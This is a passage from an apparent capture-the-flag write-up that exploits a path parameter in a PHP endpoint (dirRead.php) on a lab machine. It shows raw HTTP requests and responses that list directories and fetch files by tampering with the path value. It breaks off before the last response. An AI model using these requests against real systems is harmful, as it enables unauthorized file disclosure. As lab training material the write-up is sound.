 This just popped up after the inital request, and that `path=` parameter looks suspect as hell.

Looking at the response in BurpSuite we can clearly see what looks like a JSON response with some "lists" in it

```
HTTP/1.1 200 OK
Server: nginx/1.12.2
Date: Tue, 14 Aug 2018 20:44:38 GMT
Content-Type: application/json
Connection: close
X-Powered-By: PHP/7.1.16
Content-Length: 34

[".","..","list1","list2","list3"]
```

The "list" entries are the things we can see on the main page, but the first two look suspiciously like UNIX file paths. The first "." being the working directory, and the second ".." is the parent folder, or at least that's the way it is on a UNIX system, so we might have an LFI here. 

Yup, we have an LFI. 

Removing the `.list/` part gives us much more output, and it appears as though we're looking at the web root.

```
HTTP/1.1 200 OK
Server: nginx/1.12.2
Date: Tue, 14 Aug 2018 20:54:42 GMT
Content-Type: application/json
Connection: close
X-Powered-By: PHP/7.1.16
Content-Length: 155

[".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
```

OK, so confirmed LFI, and we have something to go off in terms of file names, so lets try and pull some out.

```
POST /dirRead.php HTTP/1.1
Host: 10.10.10.87
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.87/list.html
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Connection: close

path=./.fileDelete.php
```
Sending that request gave the following output.
